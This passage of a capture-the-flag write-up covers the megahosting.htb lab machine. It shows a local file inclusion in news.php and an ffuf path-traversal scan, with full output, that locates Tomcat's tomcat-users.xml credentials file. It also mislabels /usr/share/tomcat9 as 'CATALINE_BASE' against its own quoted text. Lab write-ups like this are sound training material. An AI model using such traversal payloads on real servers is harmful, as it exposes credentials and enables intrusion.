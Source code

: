 *megahosting.htb*

Manually walking through the website on port 80 gives us LFI at the following address:

*http://megahosting.htb/news.php?file=*

Since we know that tomcat is running, we'll visit the tomcat instance on port 8080. We see the following interesting lines:

*Tomcat veterans might be pleased to learn that this system instance of Tomcat is installed with CATALINA_HOME in /usr/share/tomcat9 and CATALINA_BASE in /var/lib/tomcat9, following the rules from /usr/share/doc/tomcat9-common/RUNNING.txt.gz.*

Further down the page, we get an incorrect location for the tomcat-users.xml file, which will hold the credentials we need to log into the machine. We know that the tomcat-users.xml file should be in CATALINE_BASE + /conf/tomcat-users.xml, but visiting this location with our LFI doesn't work. To automate the process, we can use ffuf and do a quick scan of directories in CATALINE_BASE (/usr/share/tomcat9) to see if we can get a quick win:

```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/FUZZ/tomcat-users.xml' -fs 0
                                                          
        /'___\  /'___\           /'___\                
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                              
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                             
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                 
         \ \_\   \ \_\  \ \____/  \ \_\                                                                              
          \/_/    \/_/   \/___/    \/_/                                                                              
                                                                                                                     
       v1.0.2                                                                                                        
________________________________________________
                                                                                                                     
 :: Method           : GET                                                                                           
 :: URL              : http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/FUZZ/tomcat-users.xml
 :: Follow redirects : false                                                                                         
 :: Calibration      : false                                                                                         
 :: Timeout          : 10                                 
 :: Threads          : 40                                 
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 0                                                                              
________________________________________________
                                                          
etc                     [Status: 200, Size: 2325, Words: 361, Lines: 48]                                             
:: Progress: [4652/4652] :: Job [1/1] :: 775 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
